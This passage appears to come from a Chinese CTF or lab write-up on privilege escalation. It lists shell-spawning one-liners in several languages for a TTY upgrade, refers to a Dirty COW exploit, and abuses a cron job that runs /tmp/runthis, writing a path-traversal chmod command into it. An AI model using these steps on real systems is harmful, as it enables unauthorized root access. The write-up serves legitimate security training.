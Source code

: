 回车一次后输入 reset 再回车将再次进入 shell 中，到此 TTY shell 升级完成。

#### 其他语言写入交互式 shell：

```shell
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

然后转换用户，读取flag：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401312347464.png" alt="image-20240131231632041" style="zoom:50%;" />

### 作者脚本提权

我看师傅们的解决办法有的和我不一样，尝试进行实现一下：

为了不影响下面的效果，先将管理员密码设为默认的，（再次运行一下那个脏牛2）

先进入一下用户名那个目录查看一下有无敏感信息，发现一个`notes.txt`：

```text
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

作者说要回到/tmp目录并创建runthis文件，尝试一下：

```shell
echo "/usr/bin/../../bin/chmod -R 777 /home/admin" >/tmp/runthis
```

